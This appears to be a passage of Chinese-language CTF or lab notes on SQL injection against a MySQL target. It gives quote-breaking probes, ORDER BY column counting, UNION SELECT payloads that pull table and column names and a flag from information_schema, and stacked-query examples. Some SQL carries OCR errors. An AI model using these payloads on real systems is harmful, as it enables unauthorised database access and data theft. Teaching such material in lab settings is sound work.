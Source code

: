 ```bash
SELECT * FORM users WHERE id=’ 1’’  LIMIT 0,1
```

此时两个单引号被识别成双引号，  与第一个单引号不匹配，  导致sql语法错误，  同时确定使用的数据库是  MySQL

使用order by 确定回显列数，  此时构成sql语句，  `--`  是MySQL中的注释，  也可以使用  `#` 

```bash
SELECT * FROM users WHERE id=’ 1’  order by 4-- ’  LIMIT 0,1
```

若未超出列数正常显示，  否则报错，  +被自动解码为空格  (在URL中空格和#需要进行编码)

使用  UNION 确定回显数据的列是第3、  4列

确定数据库名称，  使用  database()

通过  information_schema 查询数据

```bash
查询数据中的表
?id=-1 'union select 1,2,3,group_concat(table_name) from
information_schema.tables where table_schema= 'ly_netlab '--+

查询表中列名
?id=-1 'union select 1,2,3,group_concat(column_name) from
information_schema.columns where table_schema= 'ly_netlab ' and
table_name= 'flag '--+

查flag
?id=-1 'union select 1,2,3,group_concat(flag) from flag--+
```

### 堆叠注入  

堆叠注入即一次执行多条SQL语句，  分号  (;)  是SQL语句的结束 如

```bash
SELECT * FROM users WHERE id=1;SHOW databases;  
```

两条语句都会被执行

#### SQL语句

• 获取数据库名  

```bash
show databases;
```

• 获取表  

```bash
show tables;
```

• 获取表中的字段名  

```bash
show columns from database_name.table_name;
```

